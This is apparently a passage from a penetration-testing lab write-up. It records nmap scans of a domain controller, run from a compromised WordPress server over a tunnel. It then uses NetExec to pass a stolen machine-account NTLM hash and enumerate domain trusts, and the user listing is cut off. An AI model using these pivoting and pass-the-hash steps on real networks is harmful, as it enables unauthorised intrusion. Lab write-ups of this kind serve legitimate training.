Same here but seems like no success so we can move on?

New scan from inside linux wordpress machine!

```
www-data@corewebdl:/tmp$ ./nmap -F 10.9.10.10
./nmap -F 10.9.10.10

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2024-06-14 08:36 EST
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for 10.9.10.10
Host is up (0.39s latency).
Not shown: 235 closed ports
PORT     STATE SERVICE
53/tcp   open  domain
80/tcp   open  http
88/tcp   open  kerberos
135/tcp  open  epmap
389/tcp  open  ldap
443/tcp  open  https
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd
636/tcp  open  ldaps
3389/tcp open  ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 1.13 seconds
www-data@corewebdl:/tmp$
```

Even more details after I fixed ligolo:

```
PORT      STATE SERVICE       REASON         VERSION
53/tcp    open  domain        syn-ack ttl 64 Simple DNS Plus
80/tcp    open  http          syn-ack ttl 64 Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
88/tcp    open  kerberos-sec  syn-ack ttl 64 Microsoft Windows Kerberos (server time: 2024-06-14 14:29:54Z)
135/tcp   open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
389/tcp   open  ldap          syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: cyber.local, Site: Root)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:cydc.cyber.local
| Issuer: commonName=Cyber-CA/domainComponent=cyber
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: ecdsa-with-SHA256
| Not valid before: 2024-01-17T19:49:59
| Not valid after:  2025-01-16T19:49:59
| MD5:   ee22:5061:3dff:c11d:064d:d4e1:fb04:d8f0
| SHA-1: d1a7:ff08:137a:2a81:6edf:e0b6:1738:6c57:4d56:5e66
| -----BEGIN CERTIFICATE-----
| MIIEpTCCBEygAwIBAgITJgAACacCqpbIk0D+hAAAAAAJpzAKBggqhkjOPQQDAjBB
| MRUwEwYKCZImiZPyLGQBGRYFbG9jYWwxFTATBgoJkiaJk/IsZAEZFgVjeWJlcjER
| MA8GA1UEAxMIQ3liZXItQ0EwHhcNMjQwMTE3MTk0OTU5WhcNMjUwMTE2MTk0OTU5
| WjAAMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA0viu7qXfcPEF5jhV
| XeN95jFPT80LOvQq6vJnqt6pdAT6vk/DA/bckqqk0ovkAu2n1SH3VBkVCBZ5uJK+
| I5+r4dXP1vl/4v+mnY1ElJRz3atMK7n/7sKbCbmIKN5hg++HCu4NSbiu8iJpM/tt
| 7J3uemiO0+9C3p/BfEGvYWGII6lwso1HzHa0fjIytY4wRjj2Ne/unG3KETOpmaLw
| hP8KYXo17miB9md/HgSsNW/N63/J+RKo/UkZ4Cqua4b3EVTb7+LPoy3wk1AwrcE1
| jHkhX9lrNBDi9657bXcfIeBb+zUwlguJ/nNAc5zFpfZamIgtqMd1bC857A+CbeN4
| rvbaswIDAQABo4IClzCCApMwPAYJKwYBBAGCNxUHBC8wLQYlKwYBBAGCNxUIh7uV
| NJ+RM4aJjTiE1p1mgdXEI2mr3Ocrq9zuJwIBbgIBAjApBgNVHSUEIjAgBgorBgEE
| AYI3FAICBggrBgEFBQcDAQYIKwYBBQUHAwIwDgYDVR0PAQH/BAQDAgWgMDUGCSsG
| AQQBgjcVCgQoMCYwDAYKKwYBBAGCNxQCAjAKBggrBgEFBQcDATAKBggrBgEFBQcD
| AjAdBgNVHQ4EFgQUKQIcSUH+ozN18MHWDxuc+Psh/+wwHwYDVR0jBBgwFoAUMQqj
| BPCHsx61oqXqqcLpYWOQrCIwgcMGA1UdHwSBuzCBuDCBtaCBsqCBr4aBrGxkYXA6
| Ly8vQ049Q3liZXItQ0EsQ049Y3lkYyxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIw
| U2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1jeWJlcixE
| Qz1sb2NhbD9jZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xh
| c3M9Y1JMRGlzdHJpYnV0aW9uUG9pbnQwgboGCCsGAQUFBwEBBIGtMIGqMIGnBggr
| BgEFBQcwAoaBmmxkYXA6Ly8vQ049Q3liZXItQ0EsQ049QUlBLENOPVB1YmxpYyUy
| MEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9
| Y3liZXIsREM9bG9jYWw/Y0FDZXJ0aWZpY2F0ZT9iYXNlP29iamVjdENsYXNzPWNl
| cnRpZmljYXRpb25BdXRob3JpdHkwHgYDVR0RAQH/BBQwEoIQY3lkYy5jeWJlci5s
| b2NhbDAKBggqhkjOPQQDAgNHADBEAiB/D6y8V1Y/EJ5H9KLWceaElGmrMka+M7g2
| MANzKf+yhQIgBS00LAHR7d0I0SobGP605NtiJJysN/N8i1zLAoAgyfo=
|_-----END CERTIFICATE-----
|_ssl-date: 2024-06-14T14:30:59+00:00; +1s from scanner time.
443/tcp   open  ssl/http      syn-ack ttl 64 Microsoft IIS httpd 10.0
| tls-alpn: 
|   h2
|_  http/1.1
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
| ssl-cert: Subject: commonName=certenroll.cyber.local
| Issuer: commonName=Cyber-CA/domainComponent=cyber
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: ecdsa-with-SHA256
| Not valid before: 2024-01-13T06:54:32
| Not valid after:  2026-01-12T06:54:32
| MD5:   5083:51d1:f465:a511:ef2d:9186:ace3:9ffd
| SHA-1: 2320:5c90:75f1:1a1f:f85d:1825:7162:786b:8baa:a3fb
| -----BEGIN CERTIFICATE-----
| MIIEcDCCBBegAwIBAgITJgAACYghqv6ahMKNTgAAAAAJiDAKBggqhkjOPQQDAjBB
| MRUwEwYKCZImiZPyLGQBGRYFbG9jYWwxFTATBgoJkiaJk/IsZAEZFgVjeWJlcjER
| MA8GA1UEAxMIQ3liZXItQ0EwHhcNMjQwMTEzMDY1NDMyWhcNMjYwMTEyMDY1NDMy
| WjAhMR8wHQYDVQQDExZjZXJ0ZW5yb2xsLmN5YmVyLmxvY2FsMIIBIjANBgkqhkiG
| 9w0BAQEFAAOCAQ8AMIIBCgKCAQEAptD1UvUhpThYNVxjA+8KBmXmER42LAlNzRze
| oxmuxfH1O6co7XMhTQUnWLRVtiuFatPilqOv8nCY8y4/6rzvZvSPk9xJVelY7qEW
| Vtlvphsqup+ZB6S+nJQ1CMcS+NocyhwVaFbyevL2LZoud6PEjVq1chFOQcbieojL
| AWwgLj1Xmu8WqOwOaSbXaB9vOl2/BfEyfDGTpu14PbihrcVsIjnFP5y69D/AI6FK
| hwS9DpduO7pXDU4zBZeSoO9ae1dtCA2o/QlmkMA0/CKdt4yj/3ZVXCyt8kRvgQ7I
| dSbzbIEI4uDDJKFvzLy9k0Tq/2RSF6Bxoa3qbY8MmfBnaBE/YQIDAQABo4ICQTCC
| Aj0wNgYJKwYBBAGCNxUHBCkwJwYfKwYBBAGCNxUIh7uVNJ+RM4aJjTiE1p1mgdXE
| I2kBIwIBZAIBATATBgNVHSUEDDAKBggrBgEFBQcDATAOBgNVHQ8BAf8EBAMCBaAw
| GwYJKwYBBAGCNxUKBA4wDDAKBggrBgEFBQcDATAdBgNVHQ4EFgQUFPJE8tNaWyaS
| P81Wpm7s8j7exG4wHwYDVR0jBBgwFoAUMQqjBPCHsx61oqXqqcLpYWOQrCIwgcMG
| A1UdHwSBuzCBuDCBtaCBsqCBr4aBrGxkYXA6Ly8vQ049Q3liZXItQ0EsQ049Y3lk
| YyxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049U2VydmljZXMs
| Q049Q29uZmlndXJhdGlvbixEQz1jeWJlcixEQz1sb2NhbD9jZXJ0aWZpY2F0ZVJl
| dm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlzdHJpYnV0aW9uUG9p
| bnQwgboGCCsGAQUFBwEBBIGtMIGqMIGnBggrBgEFBQcwAoaBmmxkYXA6Ly8vQ049
| Q3liZXItQ0EsQ049QUlBLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNl
| cnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9Y3liZXIsREM9bG9jYWw/Y0FDZXJ0
| aWZpY2F0ZT9iYXNlP29iamVjdENsYXNzPWNlcnRpZmljYXRpb25BdXRob3JpdHkw
| CgYIKoZIzj0EAwIDRwAwRAIgFEg83TWnxwe4lL8oUpJYtVIE1q4YvzoDCgO6h2qP
| tnsCID48kVoQRkypvSpOaNKebzefXjFHJw/g+kcDGhoDes4X
|_-----END CERTIFICATE-----
|_ssl-date: 2024-06-14T14:30:59+00:00; +1s from scanner time.
445/tcp   open  microsoft-ds? syn-ack ttl 64
464/tcp   open  kpasswd5?     syn-ack ttl 64
593/tcp   open  ncacn_http    syn-ack ttl 64 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 64
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:cydc.cyber.local
| Issuer: commonName=Cyber-CA/domainComponent=cyber
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: ecdsa-with-SHA256
| Not valid before: 2024-01-17T19:49:59
| Not valid after:  2025-01-16T19:49:59
| MD5:   ee22:5061:3dff:c11d:064d:d4e1:fb04:d8f0
| SHA-1: d1a7:ff08:137a:2a81:6edf:e0b6:1738:6c57:4d56:5e66
| -----BEGIN CERTIFICATE-----
| MIIEpTCCBEygAwIBAgITJgAACacCqpbIk0D+hAAAAAAJpzAKBggqhkjOPQQDAjBB
| MRUwEwYKCZImiZPyLGQBGRYFbG9jYWwxFTATBgoJkiaJk/IsZAEZFgVjeWJlcjER
| MA8GA1UEAxMIQ3liZXItQ0EwHhcNMjQwMTE3MTk0OTU5WhcNMjUwMTE2MTk0OTU5
| WjAAMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA0viu7qXfcPEF5jhV
| XeN95jFPT80LOvQq6vJnqt6pdAT6vk/DA/bckqqk0ovkAu2n1SH3VBkVCBZ5uJK+
| I5+r4dXP1vl/4v+mnY1ElJRz3atMK7n/7sKbCbmIKN5hg++HCu4NSbiu8iJpM/tt
| 7J3uemiO0+9C3p/BfEGvYWGII6lwso1HzHa0fjIytY4wRjj2Ne/unG3KETOpmaLw
| hP8KYXo17miB9md/HgSsNW/N63/J+RKo/UkZ4Cqua4b3EVTb7+LPoy3wk1AwrcE1
| jHkhX9lrNBDi9657bXcfIeBb+zUwlguJ/nNAc5zFpfZamIgtqMd1bC857A+CbeN4
| rvbaswIDAQABo4IClzCCApMwPAYJKwYBBAGCNxUHBC8wLQYlKwYBBAGCNxUIh7uV
| NJ+RM4aJjTiE1p1mgdXEI2mr3Ocrq9zuJwIBbgIBAjApBgNVHSUEIjAgBgorBgEE
| AYI3FAICBggrBgEFBQcDAQYIKwYBBQUHAwIwDgYDVR0PAQH/BAQDAgWgMDUGCSsG
| AQQBgjcVCgQoMCYwDAYKKwYBBAGCNxQCAjAKBggrBgEFBQcDATAKBggrBgEFBQcD
| AjAdBgNVHQ4EFgQUKQIcSUH+ozN18MHWDxuc+Psh/+wwHwYDVR0jBBgwFoAUMQqj
| BPCHsx61oqXqqcLpYWOQrCIwgcMGA1UdHwSBuzCBuDCBtaCBsqCBr4aBrGxkYXA6
| Ly8vQ049Q3liZXItQ0EsQ049Y3lkYyxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIw
| U2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1jeWJlcixE
| Qz1sb2NhbD9jZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xh
| c3M9Y1JMRGlzdHJpYnV0aW9uUG9pbnQwgboGCCsGAQUFBwEBBIGtMIGqMIGnBggr
| BgEFBQcwAoaBmmxkYXA6Ly8vQ049Q3liZXItQ0EsQ049QUlBLENOPVB1YmxpYyUy
| MEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9
| Y3liZXIsREM9bG9jYWw/Y0FDZXJ0aWZpY2F0ZT9iYXNlP29iamVjdENsYXNzPWNl
| cnRpZmljYXRpb25BdXRob3JpdHkwHgYDVR0RAQH/BBQwEoIQY3lkYy5jeWJlci5s
| b2NhbDAKBggqhkjOPQQDAgNHADBEAiB/D6y8V1Y/EJ5H9KLWceaElGmrMka+M7g2
| MANzKf+yhQIgBS00LAHR7d0I0SobGP605NtiJJysN/N8i1zLAoAgyfo=
|_-----END CERTIFICATE-----
|_ssl-date: 2024-06-14T14:30:59+00:00; +1s from scanner time.
3268/tcp  open  ldap          syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: cyber.local, Site: Root)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:cydc.cyber.local
| Issuer: commonName=Cyber-CA/domainComponent=cyber
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: ecdsa-with-SHA256
| Not valid before: 2024-01-17T19:49:59
| Not valid after:  2025-01-16T19:49:59
| MD5:   ee22:5061:3dff:c11d:064d:d4e1:fb04:d8f0
| SHA-1: d1a7:ff08:137a:2a81:6edf:e0b6:1738:6c57:4d56:5e66
| -----BEGIN CERTIFICATE-----
| MIIEpTCCBEygAwIBAgITJgAACacCqpbIk0D+hAAAAAAJpzAKBggqhkjOPQQDAjBB
| MRUwEwYKCZImiZPyLGQBGRYFbG9jYWwxFTATBgoJkiaJk/IsZAEZFgVjeWJlcjER
| MA8GA1UEAxMIQ3liZXItQ0EwHhcNMjQwMTE3MTk0OTU5WhcNMjUwMTE2MTk0OTU5
| WjAAMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA0viu7qXfcPEF5jhV
| XeN95jFPT80LOvQq6vJnqt6pdAT6vk/DA/bckqqk0ovkAu2n1SH3VBkVCBZ5uJK+
| I5+r4dXP1vl/4v+mnY1ElJRz3atMK7n/7sKbCbmIKN5hg++HCu4NSbiu8iJpM/tt
| 7J3uemiO0+9C3p/BfEGvYWGII6lwso1HzHa0fjIytY4wRjj2Ne/unG3KETOpmaLw
| hP8KYXo17miB9md/HgSsNW/N63/J+RKo/UkZ4Cqua4b3EVTb7+LPoy3wk1AwrcE1
| jHkhX9lrNBDi9657bXcfIeBb+zUwlguJ/nNAc5zFpfZamIgtqMd1bC857A+CbeN4
| rvbaswIDAQABo4IClzCCApMwPAYJKwYBBAGCNxUHBC8wLQYlKwYBBAGCNxUIh7uV
| NJ+RM4aJjTiE1p1mgdXEI2mr3Ocrq9zuJwIBbgIBAjApBgNVHSUEIjAgBgorBgEE
| AYI3FAICBggrBgEFBQcDAQYIKwYBBQUHAwIwDgYDVR0PAQH/BAQDAgWgMDUGCSsG
| AQQBgjcVCgQoMCYwDAYKKwYBBAGCNxQCAjAKBggrBgEFBQcDATAKBggrBgEFBQcD
| AjAdBgNVHQ4EFgQUKQIcSUH+ozN18MHWDxuc+Psh/+wwHwYDVR0jBBgwFoAUMQqj
| BPCHsx61oqXqqcLpYWOQrCIwgcMGA1UdHwSBuzCBuDCBtaCBsqCBr4aBrGxkYXA6
| Ly8vQ049Q3liZXItQ0EsQ049Y3lkYyxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIw
| U2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1jeWJlcixE
| Qz1sb2NhbD9jZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xh
| c3M9Y1JMRGlzdHJpYnV0aW9uUG9pbnQwgboGCCsGAQUFBwEBBIGtMIGqMIGnBggr
| BgEFBQcwAoaBmmxkYXA6Ly8vQ049Q3liZXItQ0EsQ049QUlBLENOPVB1YmxpYyUy
| MEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9
| Y3liZXIsREM9bG9jYWw/Y0FDZXJ0aWZpY2F0ZT9iYXNlP29iamVjdENsYXNzPWNl
| cnRpZmljYXRpb25BdXRob3JpdHkwHgYDVR0RAQH/BBQwEoIQY3lkYy5jeWJlci5s
| b2NhbDAKBggqhkjOPQQDAgNHADBEAiB/D6y8V1Y/EJ5H9KLWceaElGmrMka+M7g2
| MANzKf+yhQIgBS00LAHR7d0I0SobGP605NtiJJysN/N8i1zLAoAgyfo=
|_-----END CERTIFICATE-----
|_ssl-date: 2024-06-14T14:30:59+00:00; +1s from scanner time.
3269/tcp  open  ssl/ldap      syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: cyber.local, Site: Root)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:cydc.cyber.local
| Issuer: commonName=Cyber-CA/domainComponent=cyber
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: ecdsa-with-SHA256
| Not valid before: 2024-01-17T19:49:59
| Not valid after:  2025-01-16T19:49:59
| MD5:   ee22:5061:3dff:c11d:064d:d4e1:fb04:d8f0
| SHA-1: d1a7:ff08:137a:2a81:6edf:e0b6:1738:6c57:4d56:5e66
| -----BEGIN CERTIFICATE-----
| MIIEpTCCBEygAwIBAgITJgAACacCqpbIk0D+hAAAAAAJpzAKBggqhkjOPQQDAjBB
| MRUwEwYKCZImiZPyLGQBGRYFbG9jYWwxFTATBgoJkiaJk/IsZAEZFgVjeWJlcjER
| MA8GA1UEAxMIQ3liZXItQ0EwHhcNMjQwMTE3MTk0OTU5WhcNMjUwMTE2MTk0OTU5
| WjAAMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA0viu7qXfcPEF5jhV
| XeN95jFPT80LOvQq6vJnqt6pdAT6vk/DA/bckqqk0ovkAu2n1SH3VBkVCBZ5uJK+
| I5+r4dXP1vl/4v+mnY1ElJRz3atMK7n/7sKbCbmIKN5hg++HCu4NSbiu8iJpM/tt
| 7J3uemiO0+9C3p/BfEGvYWGII6lwso1HzHa0fjIytY4wRjj2Ne/unG3KETOpmaLw
| hP8KYXo17miB9md/HgSsNW/N63/J+RKo/UkZ4Cqua4b3EVTb7+LPoy3wk1AwrcE1
| jHkhX9lrNBDi9657bXcfIeBb+zUwlguJ/nNAc5zFpfZamIgtqMd1bC857A+CbeN4
| rvbaswIDAQABo4IClzCCApMwPAYJKwYBBAGCNxUHBC8wLQYlKwYBBAGCNxUIh7uV
| NJ+RM4aJjTiE1p1mgdXEI2mr3Ocrq9zuJwIBbgIBAjApBgNVHSUEIjAgBgorBgEE
| AYI3FAICBggrBgEFBQcDAQYIKwYBBQUHAwIwDgYDVR0PAQH/BAQDAgWgMDUGCSsG
| AQQBgjcVCgQoMCYwDAYKKwYBBAGCNxQCAjAKBggrBgEFBQcDATAKBggrBgEFBQcD
| AjAdBgNVHQ4EFgQUKQIcSUH+ozN18MHWDxuc+Psh/+wwHwYDVR0jBBgwFoAUMQqj
| BPCHsx61oqXqqcLpYWOQrCIwgcMGA1UdHwSBuzCBuDCBtaCBsqCBr4aBrGxkYXA6
| Ly8vQ049Q3liZXItQ0EsQ049Y3lkYyxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIw
| U2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1jeWJlcixE
| Qz1sb2NhbD9jZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xh
| c3M9Y1JMRGlzdHJpYnV0aW9uUG9pbnQwgboGCCsGAQUFBwEBBIGtMIGqMIGnBggr
| BgEFBQcwAoaBmmxkYXA6Ly8vQ049Q3liZXItQ0EsQ049QUlBLENOPVB1YmxpYyUy
| MEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9
| Y3liZXIsREM9bG9jYWw/Y0FDZXJ0aWZpY2F0ZT9iYXNlP29iamVjdENsYXNzPWNl
| cnRpZmljYXRpb25BdXRob3JpdHkwHgYDVR0RAQH/BBQwEoIQY3lkYy5jeWJlci5s
| b2NhbDAKBggqhkjOPQQDAgNHADBEAiB/D6y8V1Y/EJ5H9KLWceaElGmrMka+M7g2
| MANzKf+yhQIgBS00LAHR7d0I0SobGP605NtiJJysN/N8i1zLAoAgyfo=
|_-----END CERTIFICATE-----
|_ssl-date: 2024-06-14T14:30:59+00:00; +1s from scanner time.
3389/tcp  open  ms-wbt-server syn-ack ttl 64 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: CYBER
|   NetBIOS_Domain_Name: CYBER
|   NetBIOS_Computer_Name: CYDC
|   DNS_Domain_Name: cyber.local
|   DNS_Computer_Name: cydc.cyber.local
|   DNS_Tree_Name: cyber.local
|   Product_Version: 10.0.14393
|_  System_Time: 2024-06-14T14:30:48+00:00
| ssl-cert: Subject: commonName=cydc.cyber.local
| Issuer: commonName=cydc.cyber.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-06-13T09:34:33
| Not valid after:  2024-12-13T09:34:33
| MD5:   de14:ff47:3854:5d2e:f899:cd4c:ab0a:bc94
| SHA-1: 9017:a203:3db0:40ff:c67f:d2ec:e8da:9a1e:098c:fa83
| -----BEGIN CERTIFICATE-----
| MIIC5DCCAcygAwIBAgIQHBpmLHcvC7xDyItSpv5O0jANBgkqhkiG9w0BAQsFADAb
| MRkwFwYDVQQDExBjeWRjLmN5YmVyLmxvY2FsMB4XDTI0MDYxMzA5MzQzM1oXDTI0
| MTIxMzA5MzQzM1owGzEZMBcGA1UEAxMQY3lkYy5jeWJlci5sb2NhbDCCASIwDQYJ
| KoZIhvcNAQEBBQADggEPADCCAQoCggEBAJhU3tFYTP5+Bjs2dJY2FA9bsCGoOgMU
| Vc4npWiCVIIu0I8EyTaaMfFxj++/L4qFcgunKECaNkJMEZ3BZ/4QcYISbch3S9ZY
| MYW8TG/5Exr3sJ3Hy8cRM46XT3RMf4rNWESvRvhuzzS0bZ/kTFIMp5gAE0PKQOen
| xGPD1PRXIo4n/mmv4O1JtmmMkmUlvd22kwPzJZS+hFqGapD2K5cbtnu8PHXpDUFx
| 5lgO9ekstXc1gjreF2PboSoWaVw+41w6onztNwErml5mWnAM5qYWsOPt5d3xYkj9
| 7x+D04kA5wEKi2CSWP8h4b9WrT3q1Yp+4lp+jE/Vz4D3SRkf2R0Ee/kCAwEAAaMk
| MCIwEwYDVR0lBAwwCgYIKwYBBQUHAwEwCwYDVR0PBAQDAgQwMA0GCSqGSIb3DQEB
| CwUAA4IBAQBsoHFDbbQglV13A1UNEegmLrn7UbPxqFk4FyA/5RAllqfddW9oU43H
| 2wGBJZ+tEyVuEteFSZwINSlpMTBjrrXT7rXoZuGI+maTyJtP2pSwW6Rfzy2FL2S8
| fFL6F5vKgp61CWyISrNsl7DC1c/uaXoETMvCoKFULeGnjzBZ8Wz0JgZmWNI9AQEt
| TIw2aOkqSsYzSlCm/dTTA9+vmWcBvqA8myWkCnJtWS+HLIe3tKM2bGFb98UdMdN3
| IsxBp13+ID9iwp2qxEDDQsXjAHaMf71iFeitdDV3U5AjIPsYkfdwv40aIuKqiJBT
| G4Am+RxnEUXZP1tRIg4Bb7GVNF1EASxE
|_-----END CERTIFICATE-----
|_ssl-date: 2024-06-14T14:30:59+00:00; +1s from scanner time.
5985/tcp  open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack ttl 64 .NET Message Framing
47001/tcp open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49673/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49694/tcp open  ncacn_http    syn-ack ttl 64 Microsoft Windows RPC over HTTP 1.0
49695/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49698/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49711/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49722/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
63920/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): IBM z/OS 1.12.X (85%)
OS CPE: cpe:/o:ibm:zos:1.12
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: IBM z/OS 1.12 (85%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.94SVN%E=4%D=6/14%OT=53%CT=%CU=%PV=Y%G=N%TM=666C5423%P=x86_64-pc-linux-gnu)
SEQ(SP=107%GCD=1%ISR=108%TI=I%CI=RD%II=RI%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)

Uptime guess: 39.197 days (since Mon May  6 11:46:37 2024)
TCP Sequence Prediction: Difficulty=263 (Good luck!)
IP ID Sequence Generation: Incrementing by 2
Service Info: Host: CYDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 0s, deviation: 0s, median: 0s
| smb2-time: 
|   date: 2024-06-14T14:30:49
|_  start_date: 2024-06-14T09:34:42
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 11585/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 17683/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 29831/udp): CLEAN (Timeout)
|   Check 4 (port 8844/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
```

&nbsp;

# DC Enumeration

Holding the ticket NTLM hash exported from the Wordpress server we can see that the cyber.local is connected with many other domains?

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/CoreDC]
└─# NetExec ldap 10.9.10.10 -d "core.cyber.local" -u "COREWEBDL$" -H "4182816cd42bdb6d20f7fb89703f5c48" -M enum_trusts
SMB         10.9.10.10      445    CYDC             [*] Windows 10 / Server 2016 Build 14393 x64 (name:CYDC) (domain:cyber.local) (signing:True) (SMBv1:False)
LDAP        10.9.10.10      389    CYDC             [+] core.cyber.local\COREWEBDL$:4182816cd42bdb6d20f7fb89703f5c48 
ENUM_TRUSTS 10.9.10.10      389    CYDC             [+] Found the following trust relationships:
ENUM_TRUSTS 10.9.10.10      389    CYDC             core.cyber.local -> Bidirectional -> Within Forest
ENUM_TRUSTS 10.9.10.10      389    CYDC             d3v.local -> Bidirectional -> Forest Transitive
ENUM_TRUSTS 10.9.10.10      389    CYDC             m3c.local -> Inbound -> Forest Transitive
ENUM_TRUSTS 10.9.10.10      389    CYDC             inception.local -> Bidirectional -> Forest Transitive
```

And the list of the users:

```
──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/core_local]
└─# NetExec ldap 10.9.10.10 -d "core.cyber.local" -u "COREWEBDL$" -H "4182816cd42bdb6d20f7fb89703f5c48" --users
